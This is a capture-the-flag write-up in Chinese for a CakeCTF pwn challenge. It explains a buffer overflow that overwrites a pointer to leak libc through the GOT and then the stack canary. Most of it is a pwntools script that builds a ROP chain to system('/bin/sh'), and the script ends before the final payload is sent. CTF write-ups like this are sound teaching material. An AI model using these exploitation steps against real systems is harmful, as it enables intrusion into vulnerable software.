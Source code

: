 


`cat` 的型態有許多種，而 cat.name 的存法分別是 char array 以及 char pointer。程式還存在著一個 BOF 的漏洞，可以輸入任何長度的字串，寫入大小只有 20 的 char buffer。

由於 `cat` name pointer 可以被 BOF 蓋到，因此透過改寫 pointer 可以任意 leak，加上又是 NoPIE，因此改寫 pointer 指向 GOT 後，執行 `get_cat()` 可以 leak libc，而後算出 TLS 的 address，再透過同樣的方式得到 canary，最後用 BOF 堆 ROP 即可: 

```python
#!/usr/bin/python3

from pwn import *
import sys

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(sys.argv) > 1:
    r = remote('pwn.cakectf.com', 9004)
else:
    r = process('./chall')

Bengal_Cat = 0
Ocicat = 1
Ocelot = 2
Savannah_Cat = 3

# 0x402272 -> new cat
def new_cat(sp, age, name):
    r.sendlineafter(b'>> ', '1')
    r.sendlineafter(b'Species ', str(sp))
    r.sendlineafter(b'Age: ', str(age))
    r.sendlineafter(b'Name: ', name)

# 0x401957
# 0x4019bf
def get_cat():
    r.sendlineafter(b'>> ', '2')

# 0x401f3b -> call rbx (func 0x401ed3)
def set_cat(age, name):
    r.sendlineafter(b'>> ', '3')
    r.sendlineafter(b'Age: ', str(age))
    r.sendlineafter(b'Name: ', name)
    # e.g. getting vtable from 0x407cc0 + index*8

strcpy_got = 0x407fd0

# offset 0x28 - get_cat offset / 0x58 - set_cat offset
set_cat(0xdddddddd, b'\xaa'*0x20 + b'\x00' + b'\xbb'*0xf + b'\xcc'*0x28 + b'\x00')
new_cat(4, 0xdadadada, b"\x66"*0x50 + p64(strcpy_got)) # overwrite ptr
get_cat()
r.recvuntil(b'Name: ')
libc = u64(r.recvline()[:-1].ljust(8, b'\x00')) - 0x26fc0
canary_addr = libc - 0x16b098
_system = libc + 0x55410
binsh = libc + 0x1b75aa
pop_rdi_ret = libc + 0x26b72
ret = libc + 0x25679
rop = flat(
    pop_rdi_ret,
    binsh,
    ret,
    _system
)
```